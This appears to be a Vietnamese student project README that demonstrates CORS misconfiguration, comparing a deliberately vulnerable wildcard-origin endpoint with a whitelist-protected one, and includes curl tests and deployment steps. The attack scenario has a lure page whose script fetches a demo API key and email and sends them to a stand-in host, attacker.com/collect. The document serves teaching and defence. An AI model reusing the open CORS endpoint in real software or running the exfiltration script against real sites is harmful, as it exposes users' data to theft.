






# 🔐 CORS Misconfiguration Security Demo - Dự Án WEBNC

## 📌 Thông Tin Dự Án

**Mục tiêu:** Tạo demo về lỗ hổng CORS Misconfiguration trong ứng dụng web để giáo dục về an niệm mạng

**Framework:** Node.js + Express.js  
**Database:** MongoDB  
**Deployment:** Render.com  
**URL Production:** [https://project-webnc-1.onrender.com](https://project-webnc-1.onrender.com)

---

## 👥 Thành Viên Nhóm & Phân Chia Công Việc

### Nhóm: WEBNC Security Demo (3 thành viên)

| # | Tên Thành Viên | Vai Trò | Công Việc |
|---|---|---|---|
| 1 | Nguyễn Đình Hoàn - 22810310375 | Trưởng nhóm - Backend Lead | • Setup project & Express.js<br>• Viết CORS controller (vulnerable & secure)<br>• Cấu hình CORS middleware<br>• Thiết lập MongoDB & data models<br>• Deploy lên Render.com<br>• Test backend endpoints |
| 2 | Đặng HoànG ninh - 22810310370 | Frontend Lead | • Tạo interactive demo UI<br>• Xây dựng attack simulation interface<br>• Thiết kế real-time logging system<br>• Tạo responsive design<br>• Test trên browsers khác nhau<br>• Integration frontend-backend |
| 3 | Nguyễn Xuân Thành -22810310360 | Testing & Security Lead | • Security testing toàn bộ project<br>• Viết test cases & scenarios<br>• Tấn công demo (attack simulation)<br>• Kiểm tra whitelist validation<br>• Performance testing<br>• Verify production deployment |


---

## 📚 Hướng Dẫn Sử Dụng

### 1️⃣ Cài Đặt

#### Yêu cầu hệ thống
- Node.js 18+ 
- npm hoặc yarn
- MongoDB (local hoặc Atlas)

#### Bước cài đặt

```bash
# Clone repository
git clone <repository-url>
cd webnc

# Cài đặt dependencies
npm install

# Tạo file .env
cp .env.example .env

# Cấu hình .env
MONGODB_URI=mongodb://localhost:27017/cors-demo
CORS_WHITELIST=http://localhost:3000,https://app.com
PORT=3000

# Chạy server
npm start
```

**Output khi thành công:**
```
✅ Server running on http://localhost:3000
✅ MongoDB connected: mongodb://localhost:27017/cors-demo
```

---

### 2️⃣ Cấu Trúc Thư Mục

```
webnc/
├── config/                    # Cấu hình
│   └── database.js           # MongoDB connection
│
├── controllers/
│   └── client/
│       └── cors.controller.js # CORS controller (vulnerable + secure)
│
├── routers/
│   └── client/
│       └── cors.route.js     # CORS routes
│
├── security-demo/
│   ├── cors/
│   │   └── vulnerable-site/
│   │       └── index.html    # Interactive demo UI
│   └── README.md             # CORS demo documentation
│
├── public/                    # Static files
├── models/                    # Database models
├── middlewares/               # Express middlewares
│
├── index.js                   # Main server file
├── package.json              # Dependencies
├── .env                       # Environment variables
└── README.md                  # This file
```

---

### 3️⃣ Chạy Demo Trên Local

#### Bước 1: Khởi động server

```bash
npm start
```

#### Bước 2: Truy cập demo UI

Mở browser và vào: **http://localhost:3000/security/cors/**

#### Bước 3: Thấy giao diện như sau:


## 🎮 Demo Endpoints

### ❌ Vulnerable Endpoint

```
GET http://localhost:3000/security/cors/insecure-data
```

**Cách hoạt động:**
- Trả về `Access-Control-Allow-Origin: *`
- **BẤT KỲ DOMAIN NÀO cũng có thể truy cập**
- Gửi về dữ liệu nhạy cảm (API key, email, etc)

**Ví dụ Response:**
```json
{
  "source": "insecure",
  "message": "⚠️ CORS is wide open here!",
  "data": {
    "apiKey": "demo-api-key-123",
    "userEmail": "security@class.demo",
    "plan": "premium",
    "userId": "65a1b2c3d4e5f6g7h8i9j"
  }
}
```

**🚨 Lỗ hổng:**
```
Website attacker.com có thể gửi request:
  fetch('http://localhost:3000/security/cors/insecure-data')
    .then(r => r.json())
    .then(data => console.log(data)) // ← Lấy được dữ liệu!
```

---

### ✅ Secure Endpoint

```
GET http://localhost:3000/security/cors/secure-data
```

**Cách hoạt động:**
- Kiểm tra origin trong request header
- **CHỈ ALLOW origin trong WHITELIST**
- Nếu không được phép → Return **403 Forbidden**
- Nếu được phép → Gửi dữ liệu an toàn

**WHITELIST hiện tại (từ .env):**
```
http://localhost:3000
https://app.com
```

**Ví dụ 1: Request từ Localhost ✅ (Được phép)**

```javascript
// Từ http://localhost:3000
fetch('http://localhost:3000/security/cors/secure-data')

// Response: 200 OK
{
  "source": "secure",
  "message": "✅ Only whitelisted origins...",
  "yourOrigin": "http://localhost:3000",
  "allowedOrigins": ["http://localhost:3000", "https://app.com"],
  "data": { ... }
}
```

**Ví dụ 2: Request từ Attacker ❌ (Cấm)**

```javascript
// Từ http://attacker.com
fetch('http://localhost:3000/security/cors/secure-data')

// Response: 403 Forbidden
{
  "source": "secure",
  "message": "🔒 Origin is not allowed by the CORS whitelist.",
  "error": "CORS policy violation",
  "requestedOrigin": "http://attacker.com",
  "allowedOrigins": ["http://localhost:3000", "https://app.com"]
}
```

---

### 🔧 Debug Endpoint

```
GET http://localhost:3000/security/cors/config
```

**Dùng để:** Kiểm tra cấu hình CORS hiện tại

**Response:**
```json
{
  "whitelist": ["http://localhost:3000", "https://app.com"],
  "currentOrigin": "http://localhost:3000",
  "isAllowed": true
}
```

---

## 🎯 Kịch Bản Tấn Công Và Bảo Vệ

### Kịch Bản 1: Tấn Công Trên Vulnerable Endpoint

#### Step 1️⃣: Attacker tạo website giả

```html
<!-- attacker.com/steal-data.html -->
<h1>You won a prize! Click to claim:</h1>
<button onclick="stealData()">Click Here!</button>

<script>
function stealData() {
  fetch('http://localhost:3000/security/cors/insecure-data')
    .then(r => r.json())
    .then(data => {
      // Gửi data về server attacker
      fetch('http://attacker.com/collect?data=' + JSON.stringify(data))
    })
}
</script>
```

#### Step 2️⃣: Victim truy cập website attacker

- Nhấn button "Click Here!"
- Browser tự động gửi request tới insecure-data
- Server trả về `Access-Control-Allow-Origin: *`
- Browser cho phép attacker nhận data

#### Step 3️⃣: Attacker được dữ liệu

```
Thông tin bị lộ:
✗ API Key: demo-api-key-123
✗ Email: security@class.demo
✗ Plan: premium
✗ User ID: 65a1b2c3d4e5f6g7h8i9j
```

---

### Kịch Bản 2: Bảo Vệ Trên Secure Endpoint

#### Step 1️⃣: Attacker cố tấn công

Cùng code như trên, nhưng gọi secure-data:
```javascript
fetch('http://localhost:3000/security/cors/secure-data')
```

#### Step 2️⃣: Browser chặn tấn công

```
Browser CORS Policy Error:
❌ Access to XMLHttpRequest at 'http://localhost:3000/security/cors/secure-data'
from origin 'http://attacker.com' has been blocked by CORS policy:
The value of the 'Access-Control-Allow-Origin' header is 
'http://localhost:3000' which is not equal to the supplied origin.
```

**Hoặc nếu tấn công qua API:**
```
HTTP 403 Forbidden:
{
  "error": "CORS policy violation",
  "requestedOrigin": "http://attacker.com"
}
```

#### Step 3️⃣: Dữ liệu an toàn

✅ Attacker **không thể** lấy được dữ liệu

---

## 📊 Hình Ảnh & Kết Quả Demo

### Ảnh 1: Giao Diện Demo


Demo Interface (http://localhost:3000/security/cors/):


### Ảnh 2: Request/Response Flow




### Ảnh 3: CORS Header Comparison

Vulnerable Endpoint:


┌─────────────────────────────────────┐
│ Response Headers:                   │
│ ❌ Access-Control-Allow-Origin: *   │ ← Cho phép TẤT CẢ
│ ✓ Access-Control-Allow-Methods: GET │
│ ✓ Access-Control-Allow-Headers: ... │
└─────────────────────────────────────┘

Secure Endpoint:

┌─────────────────────────────────────┐
│ Response Headers:                   │
│ ✅ Access-Control-Allow-Origin:     │
│    http://localhost:3000            │ ← Chỉ cái này
│ ✓ Access-Control-Allow-Methods: GET │
│ ✓ Access-Control-Allow-Headers: ... │
└─────────────────────────────────────┘
```

---

## 🧪 Testing & Verification

### Test Case 1: Vulnerable Endpoint (cURL)

```bash
# Terminal 1: Chạy server
npm start

# Terminal 2: Test endpoint
curl -H "Origin: http://attacker.com" \
     -H "Access-Control-Request-Method: GET" \
     http://localhost:3000/security/cors/insecure-data
```

**Expected Output:**
```
{
  "source": "insecure",
  "message": "⚠️ CORS is wide open here...",
  "data": {
    "apiKey": "demo-api-key-123",
    ...
  }
}
```

**CORS Header:**
```
Access-Control-Allow-Origin: *  ← 🚨 Lỗ hổng
```

---

### Test Case 2: Secure Endpoint - Allowed Origin

```bash
curl -H "Origin: http://localhost:3000" \
     -H "Access-Control-Request-Method: GET" \
     http://localhost:3000/security/cors/secure-data
```

**Expected Output:**
```
{
  "source": "secure",
  "message": "✅ Only whitelisted origins...",
  "data": { ... }
}
```

**CORS Header:**
```
Access-Control-Allow-Origin: http://localhost:3000  ← ✅ Specific
```

---

### Test Case 3: Secure Endpoint - Blocked Origin

```bash
curl -H "Origin: http://attacker.com" \
     -H "Access-Control-Request-Method: GET" \
     http://localhost:3000/security/cors/secure-data
```

**Expected Output:**
```
{
  "source": "secure",
  "error": "CORS policy violation",
  "requestedOrigin": "http://attacker.com"
}
```

**HTTP Status:**
```
403 Forbidden  ← ✅ Chặn tấn công
```

---

## 🔍 Kiến Thức Bảo Mật - Key Takeaways

### ❌ NHẬP NHẰNG - Những Điều KO NÊN Làm

| Sai | Nguy Hiểm |
|-----|-----------|
| `Access-Control-Allow-Origin: *` | Cho phép mọi domain |
| `Access-Control-Allow-Origin: *` + `credentials: true` | KHIẾP! Cho phép cookie |
| Không kiểm tra origin | Bất cứ ai cũng truy cập |
| Hardcode origin | Khó bảo trì & update |

### ✅ ĐÚNG CÁC - Cách Làm Đúng

| Đúng | Lợi Ích |
|-----|---------|
| Whitelist origins cụ thể | Chỉ cho phép trusted domains |
| `Access-Control-Allow-Origin: <specific-origin>` | An toàn & cụ thể |
| Kiểm tra origin ở server | Bảo vệ tại source |
| Lưu whitelist ở `.env` | Dễ update không cần code |
| Logging & monitoring | Phát hiện tấn công |

---

## 🚀 Deployment

### Deploy lên Render.com

#### Step 1: Chuẩn bị GitHub

```bash
# Commit code
git add .
git commit -m "Deploy CORS demo to production"
git push origin production
```

#### Step 2: Setup Render

1. Vào [render.com](https://render.com)
2. New Web Service
3. Connect repository
4. Chọn branch `production`
5. Build: `npm install`
6. Start: `npm start`
7. Environment Variables:
   ```
   MONGODB_URI=<MongoDB Atlas URI>
   CORS_WHITELIST=https://project-webnc-1.onrender.com
   NODE_ENV=production
   ```

#### Step 3: Test Production

```
✅ Production URL: https://project-webnc-1.onrender.com
✅ Demo: https://project-webnc-1.onrender.com/security/cors/
```

---

## 📖 Tài Liệu Thêm

Dự án có thêm các tài liệu chi tiết:

1. **CODE_EXPLANATION.md** - Giải thích chi tiết từng dòng code
2. **BEGINNER_GUIDE.md** - Hướng dẫn cho người mới
3. **CORS_DEMO_PROPOSAL.md** - Proposal dự án (40+ pages)

---

## 🔗 Liên Kết Hữu Ích

- **Same-Origin Policy:** https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- **CORS Documentation:** https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
- **Express CORS Middleware:** https://expressjs.com/en/resources/middleware/cors.html
- **OWASP CORS:** https://owasp.org/www-community/CORS

---

## ✅ Checklist Dự Án

- ✅ CORS controller với vulnerable + secure endpoints
- ✅ Interactive demo UI
- ✅ MongoDB setup & data models
- ✅ Environment variables configuration
- ✅ Error handling & logging
- ✅ Production deployment
- ✅ Comprehensive documentation
- ✅ Code explanation & guides
- ✅ Security testing & verification

---
